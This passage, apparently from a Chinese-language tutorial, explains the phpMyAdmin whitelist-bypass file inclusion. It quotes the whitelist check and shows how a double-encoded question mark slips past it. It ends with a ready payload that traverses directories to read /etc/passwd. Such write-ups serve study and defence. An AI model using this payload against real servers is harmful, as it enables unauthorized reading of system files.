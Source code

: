 ```php
    'server_status.php',
    'server_status_advisor.php',
    'server_status_monitor.php',
    'server_status_queries.php',
    'server_status_variables.php',
    'server_variables.php',
    'sql.php',
    'tbl_addfield.php',
    'tbl_change.php',
    'tbl_create.php',
    'tbl_import.php',
    'tbl_indexes.php',
    'tbl_sql.php',
    'tbl_export.php',
    'tbl_operations.php',
    'tbl_structure.php',
    'tbl_relation.php',
    'tbl_replace.php',
    'tbl_row_action.php',
    'tbl_select.php',
    'tbl_zoom_select.php',
    'transformation_overview.php',
    'transformation_wrapper.php',
    'user_password.php',
);
```



### 漏洞利用

网上的payload：`db_sql.php%253/../../../../../../etc/passwd`其中`db_sql.php`为白名单上的就可替换绕过。

```php
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
```

 这里有个很关键的点，就是 `urldecode` 了我们传进来的 `$page`，然后又获取了问号前的文件名，所以我们把问号 `url` 编码一下都没问题，像这样： 

db_datadict.php%3F/../a.txt

 `include` 是允许 `%3f` 作为文件名的一部分

因为浏览器还是会解码一次，所以需要把`?`再编码一次，就有了一开始的payload:

`index.php?target=db_sql.php%253F/../../../../../../etc/passwd`


